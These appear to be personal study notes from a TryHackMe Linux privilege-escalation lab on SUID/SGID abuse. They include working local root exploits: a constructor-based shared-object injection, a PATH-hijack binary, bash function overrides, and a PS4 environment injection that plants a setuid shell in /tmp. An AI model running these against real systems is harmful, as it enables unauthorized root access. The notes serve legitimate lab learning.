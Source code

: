 
The file is run with the permissions of it's user/group

SUID = Set User ID
SGID = Set Group ID

### Find them

	Find SUID binaries
		`find / -perm -u=s -type f 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f 2>/dev/null`
	Both - test this one more
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

find suids, from thm room - test 
`find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null`

Look in https://gtfobins.github.io/ and google

### Shared Object Injection

https://tryhackme.com/r/room/linuxprivesc Task 12
If we have suid root perms on a file that req a library that we can "modify", path "fix"

find by:
`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

### Environment Variables

https://tryhackme.com/r/room/linuxprivesc Task 13

we run the executable we have suid/sgid on to see what it does
we run strings on it to see if it calls/runs something - looking for paths

we can use that the executable is inheriting the user's PATH environment variable and not using a full path

replace called executable with our own

```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -o executable-name our-code.c`

run the suid/sgid binary after setting the path to the place where our file is (current dir in example)

`PATH=.:$PATH /usr/local/bin/the-suid-sgid-binary`

### Abusing Shell Features (#1)

If bash is older than 4.2-048, functions can be made with names that are the exact same as actual paths:

```sh
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
export -f makes the function available to following commands and executables

run the SUID/SGID executable calling the path we replaced

### Abusing Shell Features (#2)

In bash older than 4.4 we can use the debug mode, replacing the default "+ " at the start of the debug lines with our own "text"

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/mybash; chmod +xs /tmp/mybash)' /usr/local/bin/the-suid-sgid-binary`
	`env -i` clears the environment before adding the new vars
	`PS4` stans for "Prompt String 4"




---


thm:

The maximum number of bit that can be used to set permission for each user is 7, which is a combination of read (4) write (2) and execute (1) operation. For example, if you set permissions using **"chmod"** as **755**, then it will be: rwxr-xr-x.

  
But when special permission is given to each user it becomes SUID or SGID. When extra bit **“4”** is set to user(Owner) it becomes **SUID** (Set user ID) and when bit **“2”** is set to group it becomes **SGID** (Set Group ID).  

Therefore, the permissions to look for when looking for SUID is:

SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx  

**Finding SUID Binaries**  

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: **"find / -perm -u=s -type f 2>/dev/null"** to search the file system for SUID/GUID files. Let's break down this command.

**find** - Initiates the "find" command  

**/** - Searches the whole file system  

**-perm** - searches for files with specific permissions  

**-u=s** - Any of the permission bits _mode_ are set for the file. Symbolic modes are accepted in this form

**-type f** - Only search for files  

**2>/dev/null** - Suppresses errors














### normal SUID

/bin/su
/usr/bin/sudo

/bin/ping
/bin/mount
/bin/umount
/bin/fusermount

/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp

/usr/lib/openssh/ssh-keysign

/usr/bin/at     # unless it's RTru64 linux, in which case CVE-2002-1614


### normal SGID

/usr/bin/ssh-agent
/usr/bin/chage
/usr/bin/expiry
/usr/bin/mlocate
/usr/bin/wall
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/at
/usr/lib/x86_64-linux-gnu/utempter/utempter
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd

